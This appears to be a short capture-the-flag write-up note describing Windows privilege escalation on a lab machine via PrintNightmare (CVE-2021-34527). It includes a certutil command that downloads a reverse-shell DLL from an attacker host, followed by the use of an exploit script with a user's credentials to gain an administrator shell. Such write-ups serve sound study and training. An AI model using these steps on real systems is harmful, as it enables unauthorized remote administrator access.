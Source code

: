 # Privilege Escalation to Administrator
## Discovered spooler service is running
Discovered spooler service is running via command `Get-Service -Name "spooler"`
![[Pasted image 20211007185804.png]]
## If spooler service is running with RPC port 135, SMB on port 445 with signing disalbed[[Driver/10 - Common Enumeration]], [it is most likely vulnerable to PrintNightmare - Windows Print Spooler RCE/LPE Vulnerability (CVE-2021-34527, CVE-2021-1675)](https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527)
If spooler service is running with RPC port 135, SMB on port 445 with signing disalbed[[Driver/10 - Common Enumeration]], [it is most likely vulnerable to PrintNightmare - Windows Print Spooler RCE/LPE Vulnerability (CVE-2021-34527, CVE-2021-1675)](https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527).
## Using [PrintNightmare](https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527)) to get escalate privileges to administrator
### First we will upload reverse shell DLL to victim machine
First we will upload reverse shell DLL to victim machine using command `certutil -urlcache -split -f "http://10.10.14.98:8000/rs.dll" dn.dll`.
![[Pasted image 20211007190628.png]]
## Running exploit python script providing path of DLL and 'tony' username and password to get reverse shell as administrator
Running exploit python script providing path of DLL and 'tony' username and password to get reverse shell as administrator.
![[Pasted image 20211007191515.png]]

